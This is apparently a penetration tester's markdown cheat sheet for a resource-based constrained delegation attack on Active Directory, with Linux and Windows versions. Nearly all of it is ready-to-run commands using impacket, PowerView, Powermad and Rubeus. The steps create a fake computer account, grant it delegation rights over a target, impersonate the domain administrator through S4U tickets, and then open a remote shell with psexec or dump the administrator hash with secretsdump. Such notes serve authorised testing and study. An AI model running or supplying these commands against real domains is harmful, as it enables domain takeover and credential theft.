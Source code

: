 ```yaml
---
title: "RBCD Attack"
date: 2024-7-30
tags: ["GenericAll", "active driectory", "ad", "Windows", "rbcd", "resource-based constrained delegation", "s4u", "impersonate"]
---
```


### RBCD Attack

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 0. Check machine account quota

<div>

```console
nxc ldap <TARGET> -u <USER> -p '<PASSWORD>' -M MAQ
```

</div>

#### 1. Add a fake computer

<div>

```console
impacket-addcomputer -computer-name 'EvilComputer' -computer-pass '<COMPUTER_PASSWORD>' -dc-ip <TARGET> '<DOMAIN>/<USER>:<PASSWORD>'
```

</div>

#### 2. Rbcd attack

<div>

```console
impacket-rbcd -delegate-to '<TARGET_COMPUTER>$' -delegate-from 'EvilComputer$' -dc-ip <DC> -action 'write' '<DOMAIN>/<USER>:<PASSWORD>'
```

</div>

#### 3. Impersonate

<div>

```console
sudo ntpdate -s <DC> && impacket-getST -spn cifs/<TARGET_DOMAIN> -impersonate administrator -dc-ip <DC> '<DOMAIN>/EvilComputer:<COMPUTER_PASSWORD>'
```

</div>

#### 4. Import ticket

<div>

```console
export KRB5CCNAME=administrator@cifs_<TARGET_DOMAIN>@<DOMAIN>.ccache
```

</div>

#### 5. Post-Attack

<div>

```console
# Remote
sudo ntpdate -s <DC> && impacket-psexec <DOMAIN>/administrator@<TARGET_DOMAIN> -k -no-pass
```

```console
# Or secretsdump
impacket-secretsdump administrator@<TARGET_DOMAIN> -k -no-pass -just-dc-user Administrator
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView.ps1 

<div>

```console
. .\PowerView.ps1
```

</div>

#### 2. Check machine account quota

<div>

```console
Get-DomainObject -Identity 'DC=<EXAMPLE>,DC=<COM>' | select ms-ds-machineaccountquota
```

</div>

#### 3. Import Powermad.ps1

<div>

```console
. .\Powermad.ps1
```

```console
New-MachineAccount -MachineAccount EvilComputer -Password $(ConvertTo-SecureString '<COMPUTER_PASSWORD>' -AsPlainText -Force)
```

</div>

<small>*Ref: [Powermad.ps1](https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1)*</small>

#### 4. Attack

<div>

```console
$fakesid = Get-DomainComputer EvilComputer | select -expand objectsid
```

```console
$fakesid
```

```console
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
```

```console
$SDBytes = New-Object byte[] ($SD.BinaryLength)
```

```console
$SD.GetBinaryForm($SDBytes, 0)
```

```console
Get-DomainComputer TARGET_COMPUTER$ | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

</div>

#### 5. Check SecurityIdentifier is now fakesid 

<div>

```console
$RawBytes = Get-DomainComputer TARGET_COMPUTER -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
```

```console
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
```

```console
$Descriptor.DiscretionaryAcl
```

</div>

#### 6. Impersonate

<div>

```console
.\rubeus.exe hash /password:'<COMPUTER_PASSWORD>' /user:EvilComputer /domain:<DOMAIN>
```

```console
.\rubeus.exe s4u /user:'EvilComputer$' /rc4:<HASH> /impersonateuser:administrator /msdsspn:cifs/<TARGET_DOMAIN> /ptt /nowrap
```

</div>

#### 7. Convert to ccache format

<div>

```console
python3 rubeustoccache.py <BASE64_TICKET> secrets.kirbi secrets.ccache
```

```console
export KRB5CCNAME=secrets.ccache
```

<small>*Ref: [RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)*</small>

</div>

#### 8. Post-Attack

<div>

```console
# Remote
sudo ntpdate -s <DC> && impacket-psexec <DOMAIN>/administrator@<TARGET_DOMAIN> -k -no-pass
```

```console
# Or secretsdump
impacket-secretsdump administrator@<TARGET_DOMAIN> -k -no-pass -just-dc-user Administrator
```

</div>

{{< /tabcontent >}}

<br>
